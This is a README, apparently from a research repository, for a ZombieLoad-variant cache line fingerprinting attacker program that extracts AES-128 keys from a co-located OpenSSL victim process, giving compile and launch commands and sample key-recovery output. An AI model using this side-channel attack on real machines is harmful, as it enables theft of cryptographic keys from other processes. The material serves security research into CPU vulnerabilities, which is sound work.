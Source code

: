 # Attacker Program for Cache Line Fingerprinting with ZomvieLoad Variant 1

The folder `aes-min` contains a minimal AES128 software implementation by Craig McQueen ([cmcqueen/aes-min on GitHub, version 0.3.1](https://github.com/cmcqueen/aes-min/tree/728e156091b95a7f2e8882b7dee012e9a6ea6213) that we use to compute the inverse AES key schedule. We removed some files (like tests) that are not necessary for compiling the victim program and introduced minor changes to make the inverse key schedule function accessible to our own C code (see [aes-min/CHANGES](aes-min/CHANGES) for details). Please refer to the original repository if you are interested in the `aes-min` project.

## Preparing the attacker program

Set the processor id to run the attacker process on in `main.h`:

```c
#define CPU_ATTACKER 3
```

## Compiling
```
make
```

## Launch the attack
Start a victim process and pin it to the sibling core, for example:
```
taskset -c 7 ../victim/bin/victim-openssl inf
```

Start the attacker program. Provide the number of samples to collect as a command line parameter:
```
bin/clfp_attacker_v1 100000
```

If the attack was successful, the attacker program will print the round keys and the initial key:

```
The round key
	4e 54 f7 0e 5f 5f c9 f3 84 a6 4f b2 4e a6 dc 4f 
is from round 7. The key
	3d 80 47 7d 47 16 fe 3e 1e 23 7e 44 6d 7a 88 3b 
occurs 4 rounds before in round 3. Your AES128 key (round key 0) is:
	2b 7e 15 16 28 ae d2 a6 ab f7 15 88 09 cf 4f 3c 
```
